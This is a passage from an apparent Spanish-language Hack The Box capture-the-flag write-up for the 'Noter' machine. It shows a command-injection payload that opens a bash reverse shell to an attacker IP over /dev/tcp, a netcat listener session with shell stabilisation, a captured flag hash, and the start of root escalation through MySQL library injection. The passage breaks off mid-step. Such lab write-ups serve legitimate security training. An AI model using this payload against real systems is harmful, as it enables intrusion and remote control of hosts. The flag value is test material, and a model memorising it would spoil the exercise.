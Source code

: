 Modifico el exploit para enviarme una reverse shell

```null
'; bash -i >& /dev/tcp/10.10.16.4/443 0>&1; echo '
```

Gano acceso en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.160] 55704
bash: cannot set terminal process group (1263): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
svc@noter:~/app/web$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
svc@noter:~/app/web$ export TERM=xterm-color
svc@noter:~/app/web$ export SHELL=bash
svc@noter:~/app/web$ stty rows 55 columns 209
svc@noter:~/app/web$ source ~/.bashrc
```

Puedo ver la primera flag

```null
svc@noter:~$ cat user.txt 
ff4d9ea856683c0e420bb3b29804aca6
```

# Escalada

El demonio de ```mysql``` lo ejecuta el usuario ```root```

```null
svc@noter:/etc/systemd/system$ cat mysql-start.service 
[Unit]
Description=MySQL service

[Service]
ExecStart=/usr/sbin/mysqld
User=root
Group=root

[Install]
WantedBy=multi-user.target
```

Es posible escalar privilegios a través la inyección de una librería, según esta guía de [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library). El código de la librería se encuentra en [exploit-db](https://www.exploit-db.com/exploits/1518). Compilo el código
